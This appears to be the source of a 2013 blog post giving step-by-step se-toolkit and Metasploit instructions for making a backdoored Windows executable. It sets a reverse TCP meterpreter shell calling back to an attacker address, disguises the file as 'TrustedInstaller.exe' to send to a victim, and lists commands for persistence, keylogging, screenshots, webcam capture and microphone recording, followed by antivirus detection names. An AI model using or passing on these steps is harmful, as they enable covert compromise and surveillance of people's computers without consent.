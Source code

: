 ```yaml
---
layout: post
title: Kali Linux se-toolkit Social Engineering Toolkit
meta: How to use Kali Linux se-toolkit Social Engineering Toolkit. Start by going to Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit
posted: 11-12-2013
category: blog
---
```


<h3>Getting Started</h3>
<p>Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit</p>
<code>1) Social-Engineering Attacks</code><br>
<code>4) Create a Payload and Listener</code>
<p>Select the localhost machine. Remember: This is the attackers IPv4 address.</p>
<code>verse): 192.168.1.100</code><br>
<code>2) Windows Reverse_TCP meterpreter | Spawn a meterpreter shell on victim and send back to attacker</code><br>
<code>16) Backdoored Executable (Best)</code>
<p>Press, <b>"{ENTER}"</b> to select port 443 for the listener.</p>
<code>set:payloads> Port of the listener [443]: {ENTER}</code>
<p>Type, <b>"yes"</b> to start the listener now. There's a way to restart the listener at any time.</p>
<code>set> Start the listener now? [yes|no]: yes</code>
<p>Locate the "msf.exe" in "/usr/share/set" and,</p>
<p>Right Mouse Click > Properties > Permissions > Poperties Execute Allow</p>
<p>Rename "msf.exe" to "TrustedInstaller.exe" and send to victum pc.</p>

<br>

<h3>Restarting Listener</h3>
<ol>
	<li><code>msfconsole</code></li>
	<li><code>use exploit/multi/handler</code></li>
	<li><code>set PAYLOAD windows/meterpreter/reverse_tcp</code></li>
	<li><code>set LPORT 443</code></li>
	<li><code>set LHOST 192.168.1.100</code></li>
	<li><code>exploit</code></li>
</ol>

<br>

<table>
  <thead>
    <tr>
    <th>Simple Commands</th>
    <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>help</td>
      <td>Help menu</td>
    </tr>
    <tr>
      <td>sessions -v</td>
      <td>List all running sessions</td>
    </tr>
    <tr>
      <td>sessions -i 1</td>
      <td>Opens sessions #1</td>
    </tr>
    <tr>
      <td>ps</td>
      <td>List running process</td>
    </tr>
    <tr>
      <td>migrate 1892</td>
      <td>1892 = sessions 1 explorer.exe</td>
    </tr>
    <tr>
      <td>run persistence -h</td>
      <td>Shows persistences help</td>
    </tr>
    <tr>
      <td>run persistence -U -i 5 -p 443 -r 192.168.100.100</td>
      <td>Runs .exe on startup</td>
    </tr>
    <tr>
      <td>keyscan_start</td>
      <td>Starts capturing keystrokes</td>
    </tr>
    <tr>
      <td>keyscan_dump</td>
      <td>Dump the keystroke buffer</td>
    </tr>
    <tr>
      <td>keyscan_stop</td>
      <td>Stops captureing keystrokes</td>
    </tr>
    <tr>
      <td>screenshot</td>
      <td>Grab a screenshot of the interactive desktop</td>
    </tr>
    <tr>
      <td>webcam_snap</td>
      <td>Take a snapshot from the specified webcam</td>
    </tr>
    <tr>
      <td>record_mic</td>
      <td>Record audio from the default microphone for X seconds</td>
    </tr>
  </tbody>
</table>

<br>

<h3>Removing</h3>
<p>As of right now <a href='#'>Comodo Internet Secuirty</a> detects the following threat.</p>
<h6>TrojWare.Win32.Rozena.A@275288211</h6>
<ul>
<li>C:\Users\john\AppData\Local\Temp\radCC758.tmp\svchost.exe</li>
<li>Parent: wsript.exe(1628)</li>
</ul>
<h6>TrojWare.VBS.TrojanDropper.Agent.fe@299958242</h6>
<ul>
<li>C:\Users\john\AppData\Local\Temp\iktauyz.vbs</li>
</ul>
<h6>Heur.Gen.Lama@117024093</h6>
<ul>
<li>C:\Users\john\Desktop\TrustedInstaller.exe</li>
</ul>
